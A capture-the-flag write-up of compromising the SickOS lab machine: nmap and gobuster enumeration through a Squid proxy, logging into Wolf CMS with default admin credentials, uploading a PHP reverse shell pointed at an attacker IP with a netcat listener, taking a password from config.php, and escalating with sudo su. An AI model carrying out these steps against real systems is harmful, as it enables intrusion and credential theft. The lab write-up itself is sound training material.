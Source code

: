 # Sick OS write Up 

I got the ip address for the target machine using:
```bash

sudo arp-scan -l

```

Target ip -> 192.168.100.9

### Network Scanning 

```bash

# Nmap 7.95 scan initiated Wed Aug 20 03:03:28 2025 as: /usr/lib/nmap/nmap --privileged -sV -o nmap_full_scan 192.168.100.9
Nmap scan report for 192.168.100.9
Host is up (0.0030s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 08:00:27:1C:91:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 20 03:03:45 2025 -- 1 IP address (1 host up) scanned in 16.43 seconds

```

Open Ports are 22(ssh) and 3128(htttp-proxy) 
Here 22 has no vulnearability 

3128 has Squid http proxy, to access the proxy I used foxy proxy, and to navigated to 127.0.0.1
![homepage of target server](screenshots/homepage.png)

I navigated to robots.txt and got the path to /wolfcms which redirected to the wolf cms homepage
![wolf cms homepage](screenshots/wolf_1.png)

Let's use go buster to get the hidden dirs and endpoints of the cms


```bash

gobuster dir -u http://127.0.0.1/wolfcms/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.bak,.html,.js,.sh,.txt --proxy http://192.168.100.9:3128

```

> --proxy is used to resolve the proxy connection 

![gobuster dir](screenshots/gobuster.png)

Lets Navigate to /docs
After some enumeration in files I got updataing.txt and it has following version 
![version of wolfcms](screenshots/version.png)

So wolfcms version has vulnearablity listed on exploit-db
![exploit db](screenshots/exploit.png)

So lets navigate to URL, I got a login page:
![cms login page](screenshots/login.png)

Here I tried default username and password admin:admin and got the admin access of the cms
![admin page](screenshots/admin_page.png)

Here, I got the admin dashboard which has a functionality to upload a file, I will use to upload a reverse shell php script and use netcat to listen to connection from the target machine

```php
$ip = '192.168.100.5';
$port = 1234;
```

The uploaded file can be executed using following path: `http://127.0.0.1/wolfcms/public/`

```bash
nc -nlvp 1234  
```

### Here we got the reverse shell and we are logged in as www-data
![reverse shell executed](screenshots/shell.png)

After Enumartion in /home I got the user `sickos`, now I need to get its password

In the README.md file I got the following hint:
![database hint](screenshots/hint.png)

So as per the hint, we have to get the dbconnect file which will has password

I got the config.php and we have a database connection along with password lets try that password:
![db connect password](screenshots/hint2.png)

### We got the user sicoks access on the target machine
![sicos login](screenshots/access.png)

### User `sicoks` is under sudo user so I used is used `sudo su` command and got the root access and here is the flag:

![flag](screenshots/flag.png)